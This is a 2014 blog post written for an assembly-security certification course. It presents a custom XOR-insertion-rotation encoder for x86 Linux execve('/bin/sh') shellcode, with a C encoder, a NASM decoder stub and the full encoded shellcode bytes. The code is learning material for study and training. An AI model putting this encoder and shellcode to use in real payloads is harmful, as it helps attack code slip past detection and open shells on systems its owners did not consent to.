 ```yaml
---
comments: true
date: 2014-04-09
layout: post
title: 'SLAE Assignment 4: Custom Encoding Schema'
categories:
- programming
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:


```c
//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
//Author:	Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:	526

#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define ROL 0x00
#define ROR !ROL

void concatenate(uint8_t [], uint32_t);
void rotate(uint32_t, uint32_t, uint32_t);
void split_uint32(uint32_t);

uint8_t *finalShellcode;
uint32_t counter = 0;

int main(void){
	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
	uint8_t xorByte = 0x1c;
	uint8_t insertByte = 0xb2;

	size_t LEN=sizeof(execveShellcode);
	uint8_t xorWithInsertion[LEN*2];
	uint32_t i, j=0;

	restart:
	for(i=0; i<LEN; i++){
		if(execveShellcode[i] == xorByte){
			xorByte += 1;
			goto restart;
		}
	}
	for(i=0; i<LEN; i++){
		execveShellcode[i] ^= xorByte;
	}

	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
	for(i=0; i<LEN; i++){
		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
		else printf("0x%02x,", execveShellcode[i]);
	}
    
	for(i=0; i<LEN*2; i++){
		xorWithInsertion[i] = execveShellcode[j++];
		xorWithInsertion[++i] = insertByte++;
	}
	printf("\n\nINSERTION(XOR(Shellcode)):\n");
	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
		else printf("0x%02x,", xorWithInsertion[i]);
	}	

	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

	finalShellcode = malloc(sizeof(xorWithInsertion));
	concatenate(xorWithInsertion, sizeof(xorWithInsertion));

	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
		else printf("0x%02x,", finalShellcode[i]);
	}
	printf("\n");

	free(finalShellcode);

	return 0;
}
    
void concatenate(uint8_t arr[], uint32_t size){
   	if(size % 4 != 0){
   		printf("Size must be a multiple of 4\n");
   		return;
   	}
   
   	uint32_t i, value = 0;
    
   	for(i=0;i<size;i++){
   		value = value^arr[i];
   		if(i%4 == 3){
   			rotate(value, 16, ROL);
   			value = 0;
   		}
   		else value = value<<8;
   	}
}
    
void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    uint32_t output;
    
    if(direction == ROL){
    	output = input << (bits % (8 * sizeof(uint32_t)));
    	output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    }
    else
    {
    	output = input >> (bits % (8 * sizeof(uint32_t)));
    	output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
   	}
   	split_uint32(output);
}
    
void split_uint32(uint32_t splitMe){
   	uint32_t j;
   	uint8_t b[4];
   	b[0] = (splitMe >> 24);
   	b[1] = (splitMe >> 16) & 0xff;
   	b[2] = (splitMe & 0xffff) >> 8;
   	b[3] = (splitMe & 0xff);
   	for(j=0; j<4; j++){
   		finalShellcode[counter++] = b[j];
   	}
}
```

And this is the shellcode used to decode and execute the original execve shellcode:

```nasm    
;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
;Author:	Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:	526

global _start
section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax,eax
	xor ebx,ebx
	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
	xor edx,edx
ll:	mov ah, BYTE [esi]
	mov al, BYTE [esi +1]
	rol eax,16
	mov ah, BYTE [esi +2] 
	mov al, BYTE [esi +3]
	add esi,4
	mov bh, BYTE [esi]
	mov bl, BYTE [esi +1]
	rol ebx,16
	mov bh, BYTE [esi +2]
	mov bl, BYTE [esi +3]
	add esi,4

	mov dh,ah
	rol eax,16
	mov al,dh
	rol eax,16

	mov dh,bh
	rol ebx,16
	mov bl,dh

	mov ax,bx
	xor eax,0x1c1c1c1c
	push eax
	dec cl
	jnz ll
	jmp esp	

call_shellcode:
	call decoder
	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2
```

Please note that _EncodedShellcode_ **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
